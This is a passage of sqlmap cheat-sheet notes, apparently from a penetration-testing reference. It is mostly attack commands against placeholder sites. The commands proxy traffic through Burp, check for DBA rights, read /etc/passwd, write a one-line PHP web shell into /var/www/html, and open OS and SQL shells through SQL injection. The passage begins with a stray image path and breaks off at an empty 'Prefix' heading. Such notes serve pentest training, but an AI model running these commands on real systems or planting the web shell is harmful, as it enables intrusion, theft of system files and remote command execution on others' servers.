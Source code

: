 Other headers: `--host`, 


## Proxying via Burpsuite


```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch --proxy http://127.0.0.1:8080
```

## Getting a direct SQL Shell

```bash
# Checking for DBA Privileges
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
# Output:
# we need to get "current user is DBA: True", meaning that we may have the privilege to read local files.

# Reading Local Files
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
# Output: As we can see, SQLMap said `files saved` to a local file. We can `cat` the local file to see its content

# Writing Local Files
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
# Output: We see that SQLMap confirmed that the file was indeed written.


# A direct way to get an OS shell with SQLMap is by using the --os-shell option:
# Get a OS shell
sqlmap --url ‘http://victim.site’  --os-shell

# GEt a SQL shell
sqlmap --url ‘http://victim.site’  --sql-shell

# When there are different SQL injections but not all of them grant the oos-shell, be specific. For instance:
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

## Suffixes and preffixes

### Set a suffix

```
sqlmap -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### Prefix
